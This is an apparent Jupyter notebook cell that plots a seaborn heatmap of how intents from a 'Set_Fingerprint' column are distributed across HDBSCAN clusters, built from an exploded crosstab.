

In [50]:
import seaborn as sns
import matplotlib.pyplot as plt
# Analisys of intents per cluster
# The goal is to see how the different intents are distributed across the clusters

analysis_df = dataSet.copy()

analysis_df['cluster'] = cl_labels

print(analysis_df[['Set_Fingerprint', 'cluster']].head())


# "Explode" the dataframe so each intent in the list gets its own row
exploded_df = analysis_df.explode('Set_Fingerprint')

# Create the crosstab from the exploded data
ctab_exploded = pd.crosstab(exploded_df['cluster'], exploded_df['Set_Fingerprint'])

# Plotting the more accurate heatmap
plt.figure(figsize=(14, 6))
sns.heatmap(ctab_exploded, annot=True, fmt="d", cmap="YlGnBu")
plt.title("HDBSCAN - Detailed Intent Distribution per Cluster")
plt.show()